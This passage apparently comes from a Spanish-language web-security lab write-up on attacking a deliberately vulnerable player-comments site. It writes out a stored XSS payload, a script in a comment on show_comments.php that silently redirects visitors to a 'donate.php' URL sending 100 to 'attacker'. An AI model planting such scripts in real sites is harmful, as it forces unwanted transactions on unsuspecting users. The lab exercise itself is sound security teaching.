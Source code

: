 Posteriormente, tras darle al botón de “Send” para enviar el código php, vamos a la lista de jugadores (list_players.php) y nos aparece el botón "Profile" debajo del nombre de su equipo, antes de "(show/add comments)", que nos redirige a la página indicada al hacer clic.

![alt text](image-4.png)
![alt text](image-3.png)


### 5.b)
Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).

Primero, añadimos un comentario malicioso en el formulario de comentarios de un jugador en la página show_comments.php. Este comentario contiene un script HTML que se ejecutará automáticamente al cargar la página. El script que añadimos es: 
<script>
    window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";
</script>
